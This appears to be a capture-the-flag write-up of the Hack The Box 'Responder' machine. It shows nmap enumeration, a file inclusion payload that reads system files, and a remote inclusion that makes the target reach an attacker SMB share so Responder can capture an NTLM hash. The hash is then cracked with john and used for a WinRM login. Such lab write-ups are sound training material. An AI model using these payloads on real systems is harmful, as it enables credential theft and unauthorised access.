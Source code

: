 ```yaml
---
title: HTB Responder
date: 2022-08-04 01:55:00 +0800
categories: [HTB]
tags: [SAMBA, Apache, WinRM, Enumeration]
pin: false
---
```


![responder-htb](https://www.hackthebox.com/storage/avatars/0348ed41851064f497d155c2a6af359a.png)

## Scanning and enumeration

Now it's time to start the active scanning.

As always, we define our TARGET and hosts file of our machine to facilitate the process.

```console
TARGET=10.129.5.42
echo "10.129.5.42 responder.htb" | sudo tee -a /etc/hosts
```

We launch a single `TCMP` probe to check ping.

```console
ping -c 1 $TARGET		# => Ping is working
```

We can see that it's a Windows system.

```console
PING 10.129.5.42 (10.129.5.42) 56(84) bytes of data.
64 bytes from 10.129.5.42: icmp_seq=1 ttl=127 time=55.0 ms

--- 10.129.5.42 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 54.962/54.962/54.962/0.000 ms
```

### NMAP

To scan the `target` to find open ports and possible vulnerabilities we use `nmap`.

First, simple `TCP` scan without `DNS` resolution and ping discovery, to all the ports and with the version detection. (I applied here `--min-rate` as the scan was very slow and we don't care about HTB machines...)

```console
nmap -n -Pn -sV -p- --min-rate 5000 $TARGET -vvv -oG allPorts
```

We can see that it has the following ports open:

```console
PORT     STATE SERVICE    REASON  VERSION
80/tcp   open  http       syn-ack Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
5985/tcp open  http       syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp open  pando-pub? syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We also start a UDP check.

```console
sudo nmap -n -Pn -sVC -sU -p- --min-rate 5000 $TARGET -vvv -oG allPortsUDP
```

Nothing here of interest.

We pass the scripts.

```console
nmap -n -Pn -sVC -oN targeted -vvv -p80,5985,7680 $TARGET
```


### Website in 80

```console
whatweb http://responder.htb
http://responder.htb [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1], IP[10.129.5.42], Meta-Refresh-Redirect[http://unika.htb/], OpenSSL[1.1.1m], PHP[8.1.1], X-Powered-By[PHP/8.1.1]
ERROR Opening: http://unika.htb/ - no address for unika.htb

```

We see that it is redirecting to _<http://unika.htb>_ which we might need to also include in the hosts file after inspecting.

```console
echo "10.129.5.42 unika.htb" | sudo tee -a /etc/hosts
```

![unika-htb](/assets/img/posts/unika-htb.png)

We can inspect the source code of the site.

By inspecting the site we can see that we have a language selector that is loading the language file using a `page` parameter.

We can try to see if we are capable of launching a `LFI`.

_<http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts>_

It works. If we see an error message from php include, it can also provide information that the server is vulnerable to file inclusion. In this case we are using a local file inclusion, the idea is to link a remote file inclusion with a Samba relay attack.

We will start `Responder.py` that in kali is located in `/usr/share/responder`. The interface used is the `VPN` tunnel from `HTB`. 

```console
sudo Responder.py -I tun0
```

Then, we will call in the browser the remote file inclusion asking for a file in our server.

_<http://unika.htb/index.php?page=//10.10.14.221/hello>_

We will see in the responder that we intercepted the NTLM hash from the user. We just need to crack it with `john` and see if the user is using a common password.

```console
john -w=/usr/share/wordlists/rockyou.txt --format=netntlmv2 hash.txt
```

Please note that we put `-w*=*/usr/share`, it's very important to include the `=`. Sometimes we are use to put just the flag and we see strange errors from `john` about the `UTF-8`.

## Gaining access

Now that we have the password we are able to start a session in the PC. You can use `evil-winrm` and see the flag.